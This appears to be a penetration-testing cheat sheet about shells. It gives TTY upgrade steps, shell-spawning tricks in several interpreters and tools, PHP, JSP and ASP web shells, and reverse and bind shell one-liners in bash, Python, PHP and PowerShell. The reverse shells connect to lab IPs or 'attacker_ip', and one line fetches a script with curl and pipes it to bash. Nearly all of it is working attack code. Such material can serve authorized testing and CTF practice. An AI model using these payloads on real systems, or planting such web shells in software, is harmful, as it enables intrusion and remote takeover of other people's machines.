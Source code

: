 ```yaml
---
description: and Shells
icon: book-skull
---
```


# Shells/TTYs

<details>

<summary><mark style="color:orange;"><strong><code>TTY</code></strong></mark> <mark style="color:purple;"><strong>-</strong></mark> <mark style="color:purple;"><strong><code>Teletypewriters</code></strong></mark> </summary>

{% hint style="info" %}
<mark style="color:purple;">**Full**</mark> <mark style="color:orange;">**`TTY`**</mark>

#### <mark style="color:orange;">`BASH`</mark>

1. <mark style="color:red;">**`python3 -c 'import pty; pty.spawn("/bin/bash")'`**</mark>
2. &#x20;<kbd><mark style="color:red;">**CTRL+Z**<mark style="color:red;"></kbd>
3. <mark style="color:red;">**`stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;`**</mark>

#### <mark style="color:orange;">**`ZSH`**</mark>

1. <mark style="color:red;">**`python3 -c 'import pty; pty.spawn("/bin/bash")'`**</mark>
2. <kbd><mark style="color:red;">**CTRL+Z**<mark style="color:red;"></kbd>
3. <mark style="color:red;">**`stty raw -echo; fg %1; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;`**</mark>
{% endhint %}

{% hint style="info" %}
### <mark style="color:red;">`Clear Terminal`</mark>

<mark style="color:purple;">Set the environmental variable from the terminal to</mark> <mark style="color:orange;">**`xterm`**</mark><mark style="color:purple;">:</mark>

{% code title="Change the env to xterm" %}
```editorconfig
export TERM=xterm
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
### <mark style="color:red;">`Terminal Size`</mark>

<mark style="color:purple;">Sometimes you may need to adjust your terminal size to the needs of the situation:</mark>

{% code title="Check your terminal size" %}
```
stty size
```
{% endcode %}

{% code title="Now, change it in the target" overflow="wrap" %}
```sh
stty rows <NUMBER> columns <NUMBER>
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
### <mark style="color:red;">`Use arrow-keys`</mark>

#### <mark style="color:orange;">`BASH`</mark>

{% code title="Just use it" %}
```sh
bash
```
{% endcode %}

{% code title="Turn history on" %}
```sh
set -o history
```
{% endcode %}

* <mark style="color:purple;">In the</mark> <mark style="color:orange;">**`.bashrc`**</mark> <mark style="color:purple;">file, make sure</mark> <mark style="color:orange;">**`HISTSIZE`**</mark> <mark style="color:purple;">is not set to</mark> <mark style="color:orange;">**`0`**</mark><mark style="color:purple;">:</mark>

```editorconfig
HISTSIZE=1000
HISTFILESIZE=1000
```
{% endhint %}

{% hint style="info" %}
<mark style="color:orange;">**`rlwrap`**</mark> <mark style="color:purple;">**enables line editing and history:**</mark>

{% code title="Listener example" overflow="wrap" %}
```sh
rlwrap nc -lvnp <port>
```
{% endcode %}

{% code title="Connection example" overflow="wrap" %}
```sh
rlwrap nc 10.10.10.131 6200
```
{% endcode %}
{% endhint %}

</details>

<details>

<summary><mark style="color:red;"><strong><code>Spawning Shells</code></strong></mark></summary>

{% hint style="info" %}
<mark style="color:purple;">The</mark> <mark style="color:orange;">**`pty`**</mark> <mark style="color:purple;">module in</mark> <mark style="color:green;">**`Python`**</mark> <mark style="color:purple;">allows you to spawn a new process in a pseudo-terminal, effectively creating an interactive shell:</mark>

```sh
python3 -c 'import pty; pty.spawn("/bin/sh")' 
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">The</mark> <mark style="color:orange;">**`script`**</mark> <mark style="color:purple;">command starts a shell session and records the session to a file.</mark> <mark style="color:orange;">**`/dev/null`**</mark> <mark style="color:purple;">is specified as the file where the session is "recorded", but since it's</mark> <mark style="color:orange;">**`/dev/null`**</mark><mark style="color:purple;">, no logging actually happens:</mark>

```sh
script -qc /bin/bash /dev/null
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">Also is possible to use</mark> <mark style="color:orange;">**`echo`**</mark> <mark style="color:purple;">to pass</mark>  <mark style="color:green;">**`Python`**</mark> <mark style="color:orange;">**`os.system('/bin/bash')`**</mark> <mark style="color:purple;">to the Python interpreter:</mark>

```sh
echo os.system('/bin/bash') 
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">Spawn an interactive shell directly from the terminal:</mark>

```bash
/bin/sh -i
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">The command</mark> <mark style="color:orange;">**`exec "/bin/sh"`**</mark> <mark style="color:purple;">replaces the running</mark> <mark style="color:orange;">**`Perl`**</mark> <mark style="color:purple;">process with a new</mark> <mark style="color:orange;">**`/bin/sh`**</mark> <mark style="color:purple;">shell:</mark>

```sh
perl -e 'exec "/bin/sh";'
```

{% code title="Spawn the shell directly" %}
```bash
perl: exec "/bin/sh";
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`Ruby`**</mark><mark style="color:purple;">'s</mark> <mark style="color:orange;">**`exec`**</mark> <mark style="color:purple;">function, like in Perl, replaces the current process with a new process—in this case,</mark> <mark style="color:orange;">**`/bin/sh`**</mark><mark style="color:purple;">:</mark>

```sh
ruby: exec "/bin/sh"
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">Runs a shell command from</mark> <mark style="color:orange;">**`Lua`**</mark><mark style="color:purple;">, but unlike in</mark> <mark style="color:orange;">**`Perl`**</mark> <mark style="color:purple;">or</mark> <mark style="color:red;">**`Ruby`**</mark><mark style="color:purple;">, this does not replace the current process. It runs</mark> <mark style="color:orange;">**`/bin/sh`**</mark> <mark style="color:purple;">as a child process:</mark>

```bash
lua: os.execute('/bin/sh')
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">Replaces the current</mark> <mark style="color:red;">**`Ruby`**</mark> <mark style="color:purple;">interpreter (IRB) with the shell:</mark>

```bash
exec "/bin/sh";
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">Used to execute an external shell command:</mark>

```sh
:!bash
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">Changes the default shell used by vim's</mark> <mark style="color:orange;">**`:!`**</mark> <mark style="color:purple;">command:</mark>

```bash
:set shell=/bin/bash:shell
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">Spawn a shell from within the</mark> <mark style="color:orange;">**`nmap`**</mark> <mark style="color:purple;">interface, enabling the execution of additional shell commands while scanning:</mark>

```sh
!sh
```
{% endhint %}



</details>

<details>

<summary><mark style="color:orange;"><strong><code>PSY</code></strong></mark></summary>

<mark style="color:orange;">**`PSY`**</mark> <mark style="color:purple;">Shell is an interactive</mark> <mark style="color:orange;">**`PHP REPL (Read-Eval-Print Loop)`**</mark> <mark style="color:purple;">used normally for debugging.</mark>

{% code title="Print the working directory" %}
```php
getcwd()
```
{% endcode %}

{% code title="Print the current user" %}
```php
get_current_user()
```
{% endcode %}

{% code title="Print system info" %}
```php
phpinfo()
```
{% endcode %}

{% code title="Print contents from directory" %}
```php
scandir("/home")
```
{% endcode %}

{% code title="Print content from file" overflow="wrap" %}
```php
file_get_contents("/etc/os-release")
```
{% endcode %}

</details>

<details>

<summary><mark style="color:red;"><strong><code>Web Shells</code></strong></mark></summary>

{% hint style="info" %}
<mark style="color:red;">**`Save the shells`**</mark>

{% code overflow="wrap" %}
```sh
echo '<?php system($_REQUEST['cmd']); ?>' > cmd.php
```
{% endcode %}
{% endhint %}

{% code title="PHP Shell" overflow="wrap" %}
```php
<?php system($_REQUEST['cmd']); ?>
```
{% endcode %}

{% code title="JSP - Java Server Pages" overflow="wrap" %}
```sh
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
{% endcode %}

{% code title="ASP - Active Server Pages" %}
```aspnet
<% eval request("cmd") %>
```
{% endcode %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>BASH</code></strong></mark> <mark style="color:red;"><strong><code>Reverse Shells</code></strong></mark></summary>

{% code title="Standard" overflow="wrap" %}
```sh
bash -i >& /dev/tcp/10.10.14.18/1337 0>&1
```
{% endcode %}

{% code title="URL" overflow="wrap" %}
```url
bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.14/9001+0>%261'
```
{% endcode %}

{% hint style="info" %}
<mark style="color:orange;">**`FIFO`**</mark>

{% code overflow="wrap" %}
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```
{% endcode %}

{% code title="URL Encoded" overflow="wrap" %}
```url
rm%20/tmp/f%3B%20mkfifo%20/tmp/f%3B%20cat%20/tmp/f%20%7C%20/bin/sh%20-i%202%3E%261%20%7C%20nc%2010.10.16.10%204444%20%3E%20/tmp/f
```
{% endcode %}
{% endhint %}

{% code title="Run it in the background" %}
```sh
nohup bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1" &
```
{% endcode %}

</details>

<details>

<summary><mark style="color:green;"><strong><code>Python</code></strong></mark> <mark style="color:red;"><strong><code>Reverse Shells</code></strong></mark></summary>

{% hint style="info" %}
<mark style="color:orange;">**`PTY`**</mark>

{% code title="One-liner IPv4" overflow="wrap" %}
```sh
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.6",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```
{% endcode %}

{% code title="Save in a file IPv4" overflow="wrap" %}
```sh
echo 'import pty
import socket
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.10.16.6", 4444))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn("/bin/bash")
s.close()' > shell.py
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:orange;">**`subprocess`**</mark>

{% code title="One-liner IPv4 " overflow="wrap" %}
```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.157",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
{% endcode %}

{% code title="Save it in a file IPv4" overflow="wrap" %}
```sh
echo 'import socket, subprocess, os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.10.14.157", 1235))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
subprocess.call(["/bin/sh", "-i"])
s.close()' > shell.py
```
{% endcode %}
{% endhint %}

{% code title="UDP Reverse shell" overflow="wrap" %}
```python
import os
os.popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -u 10.10.16.10 4444 >/tmp/f &").read()
```
{% endcode %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>PHP</code></strong></mark> <mark style="color:red;"><strong><code>Reverse shell</code></strong></mark></summary>

{% code title="Direct reverse shell" overflow="wrap" %}
```php
<?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.17/4444 0>&1'");?>
```
{% endcode %}

{% code title="Remote reverse shell" overflow="wrap" %}
```php
<?php system("curl http://attacker_ip/reverseshell | bash"); ?>
```
{% endcode %}

{% code title="FIFO " overflow="wrap" %}
```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <Port> >/tmp/f"); ?>
```
{% endcode %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>Powershell</code></strong></mark> <mark style="color:red;"><strong><code>Reverse shell</code></strong></mark></summary>

{% code title="" overflow="wrap" %}
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```
{% endcode %}

</details>

<details>

<summary><mark style="color:red;"><strong><code>Bind Shells</code></strong></mark></summary>

{% hint style="info" %}
* <mark style="color:purple;">First, find ports were</mark> <mark style="color:orange;">**`inbound`**</mark> <mark style="color:purple;">connections are allowed:</mark>

{% code title="Linux" overflow="wrap" lineNumbers="true" %}
```sh
ss -tuln
netstat -tuln
lsof -i -n
```
{% endcode %}

{% code title="" overflow="wrap" lineNumbers="true" %}
```sh
netstat -ano | findstr "LISTEN"
Get-Process | Where-Object {$_.Id -eq (Get-NetTCPConnection | Where-Object {$_.State -eq 'Listen'}).OwningProcess}
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`Check the firewall rules in Windows:`**</mark>

```powershell
netsh advfirewall firewall show rule name=all
```
{% endhint %}

{% code title="Python Shell" overflow="wrap" %}
```sh
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```
{% endcode %}

{% code title="Powershell" overflow="wrap" %}
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```
{% endcode %}

</details>
